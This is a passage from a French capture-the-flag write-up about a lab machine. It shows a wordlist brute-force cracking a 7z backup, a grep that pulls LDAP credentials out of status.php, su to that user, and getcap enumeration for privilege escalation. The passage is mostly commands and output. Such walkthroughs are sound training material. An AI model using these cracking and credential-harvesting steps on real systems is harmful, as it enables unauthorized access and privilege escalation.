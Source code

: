   Algorithm.start()
{% endhighlight %}

Si vous avez des problèmes d'indentations vous avez juste à allez dans ma page Github et il y'a une repositories qui se nomme 7z-BruteForce vous avez juste à git clone ça ! ;)

	root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# python params.py backup.7z /usr/share/wordlist/directory-list-2.3-medium.txt

Pour la liste je vous conseille d'utiliser rockyou.txt. Personnellement le bruteforce à pris seulement environ 10 minutes.

	[-] Password not cracked : help
	[-] Password not cracked : events
	[-] Password not cracked : archive
	[-] Password not cracked : 02
	[-] Password not cracked : register
	[-] Password not cracked : en
	[-] Password not cracked : forum
	[-] Password not cracked : software
	[-] Password not cracked : downloads
	[-] Password not cracked : 3

	[+] Password cracked with success : delete

Parfait nous avons cracker le mot de passe. Le mot de passe est **delete** donc vous pouvez extraires les fichiers backup. Si nous regardons le fichier **status.php**.

	root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# cat status.php|grep -e 'username' -e 'password'
	$username = 'ldapuser1';
	$password = 'f3ca9d298a553da117442deeb6fa932d';
	if ($bind=ldap_bind($ds, $dn, $password)) {

Parfait nous avons trouver le mot de passe pour accéder à l'utilisateur **ldapuser1**. On se connecte avec la commande **su**.

	[10.10.12.232@lightweight ~]$ su - ldapuser1
	Mot de passe : 
	Dernière connexion : dimanche 30 décembre 2018 à 09:11:32 GMT sur pts/1
	[ldapuser1@lightweight ~]$ 

PrivEsc
----
Maintenant nous passons au root. Le root n'est pas très compliqué.

Nous allons reutiliser la commande **getcap**.

	[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
	/usr/bin/ping = cap_net_admin,cap_net_raw+p
	/usr/sbin/mtr = cap_net_raw+ep
	/usr/sbin/suexec = cap_setgid,cap_setuid+ep
	/usr/sbin/arping = cap_net_raw+p
	/usr/sbin/clockdiff = cap_net_raw+p
	/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
	/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
	/home/ldapuser1/openssl =ep
